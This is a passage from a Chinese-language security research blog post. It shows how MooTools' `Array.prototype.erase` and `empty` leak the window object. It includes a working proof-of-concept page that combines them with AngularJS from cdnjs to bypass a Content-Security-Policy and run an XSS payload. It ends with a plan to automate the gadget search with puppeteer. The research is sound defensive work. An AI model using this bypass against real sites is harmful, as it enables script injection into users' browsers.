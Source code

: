 因為檔案都不大，所以可以一個一個看，想更快的話也可以直接用 `return this` 當作關鍵字來搜尋，結果隨便一找就找到兩個：

``` js
Array.implement({
  erase: function(item){
    for (var i = this.length; i--;){
      if (this[i] === item) this.splice(i, 1);
    }
    return this;
  },

  empty: function(){
    this.length = 0;
    return this;
  },
})
```

`Array.prototype.erase` 跟 `Array.prototype.empty` 兩個函式都會回傳 `this`，所以底下兩個方法都可以拿到 window：

1. [].erase.call()
2. [].empty.call()

接著馬上來試試看 CSP bypass 是否成功：

``` html
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>CSP bypass - MooTools</title>
    <meta
      http-equiv="Content-Security-Policy"
      content="default-src 'none'; script-src https://cdnjs.cloudflare.com">
  </head>
  <body>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/mootools/1.6.0/mootools-core.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
    <div ng-app ng-csp>
      {{[].erase.call().alert('xss')}}
    </div>
  </body>
</html>
```

打開網頁之後發現確實有跳出 alert，果然成功了！

既然確認手動找得到以後，就可以來想想看怎麼自動化了。

## 自動化尋找替代品

一個滿簡單直覺的自動化流程大概就是：

1. 找出 cdnjs 上面所有的 library
2. 找出每個 library 的所有 JS 檔案
3. 用 headless browser（我用 puppeteer）來測試每個 JS 是否會在 prototype 上新增屬性
4. 嘗試呼叫新增的屬性，看是否會回傳 window
